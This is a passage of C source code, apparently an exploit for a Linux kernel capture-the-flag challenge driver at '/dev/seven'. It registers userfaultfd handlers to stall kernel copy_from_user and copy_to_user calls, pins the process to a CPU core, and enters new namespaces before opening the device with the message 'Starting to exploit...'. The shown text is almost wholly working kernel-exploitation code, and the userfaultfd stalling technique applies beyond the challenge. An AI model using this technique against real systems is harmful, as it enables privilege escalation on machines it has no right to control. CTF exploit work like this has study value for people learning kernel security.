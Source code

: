 ```c
        /* Ends here */
        
        /* set the return value of copy_from/to_user */
        the_page[0] = 0;
        /* Ends here */

        uffdio_copy.src = (unsigned long long)the_page;
        uffdio_copy.dst = (unsigned long long)msg.arg.pagefault.address &
                          ~(0x1000 - 1);
        uffdio_copy.len = 0x1000;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
        {
            err_exit("ioctl-UFFDIO_COPY");
        }

        return NULL;
    }
}

int main()
{
    int pipe_fd[2];

    save_status();
    bind_core(0);

    the_page = (char*)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);

    pipe(pipe_fd);
    pid_t pid = fork();

    if (!pid)
    {
        // 创建子进程自己的命名空间
        unshare_setup();

        pthread_t monitor, monitor_sleep3;

        uffd_addr = mmap(NULL, 0x2000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
        register_userfaultfd_for_thread_stucking(&monitor, (char *)((size_t)uffd_addr + 0x1000), 0x1000);

        uffd_addr_sleep3 = mmap(NULL, 0x2000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
        register_userfaultfd(&monitor_sleep3, (char *)((size_t)uffd_addr_sleep3 + 0x1000), 0x1000, uffd_handler_sleep3);

        int key_id;
        size_t *content = (size_t *)malloc(0x1000);
        memset(content, 0, 0x1000);

        info("Starting to exploit...");

        dev_fd = open("/dev/seven", O_RDONLY);
        if (dev_fd < 0)
        {
            error("Failed to open challenge device!");
            exit(0);
        }

```